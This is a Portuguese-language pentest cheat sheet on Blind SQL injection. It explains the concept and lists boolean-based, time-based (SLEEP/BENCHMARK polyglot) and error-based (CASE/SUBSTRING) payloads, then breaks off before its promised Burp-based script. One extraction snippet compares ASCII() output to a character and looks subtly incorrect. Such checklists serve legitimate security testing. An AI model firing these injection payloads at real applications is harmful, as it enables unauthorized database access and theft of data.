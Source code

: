 Basicamente uma aplicação é vulnerável a Blind SQL Injection quando não retorna nenhum resultado como resposta aos códigos SQL injetados. Neste cenário, códigos contendo UNION não são efetivos, e é necessário usar códigos condicionais para extrair informações da base de dados. 

:fries:Checklist

- Boolean-based Blind SQLi
<p>Se a aplicação mudar a resposta ao enviar uma sentença falsa, isso é um indício de que a aplicação está vulnerável.</p>

```
' AND 1=1 -- - (true)
' AND 1=2 -- - (false)
```
- Time-based Blind SQLi
<p>Códigos com 'SLEEP' ou 'BENCHMARCK' forçam a base de dados a esperar 10 segundos quando a condição é verdadeira. Se a resposta tiver um delay de 10 segundos (ou outro valor adicionado ao comando), isso indica que o payload funcionou, e a aplicação está vulnerável. </p>

```
/* Multicontext */
SLEEP(10)
SLEEP(10) /*' or SLEEP(10) or '" or SLEEP(10) or "*/

/* MySQL only */
IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1))/*'XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR'|"XOR(IF(SUBSTR(@@version,1,1)<5,BENCHMARK(2000000,SHA1(0xDE7EC71F1)),SLEEP(1)))OR"*/
```
- Error-based Blind SQLi
<p>Apesar do Blind SQL Injection não retornar uma mensagem de erro convencional, quando usamos CASE para testar uma condição, podemos obter o retorno de "strings", e fazer o mapeamento de informações a partir dessa resposta. </p>

```
 ' OR (SELECT CASE WHEN (ASCII(SUBSTRING((SELECT database()),1,1)) = 'a') THEN CAST('' AS INT) ELSE 'a' END) -- ';
 
 select substring(database(),1,1)
 
 ' and substring(@@version,1,1)='[valor-para-testar]
```
### Burp Suite to exploit Blind SQLi
Instale a extensão "Copy as Python-Requests" do Burp Suite e use a requisição para realizar a exploração do Blind SQL Injection. Script de exemplo: 

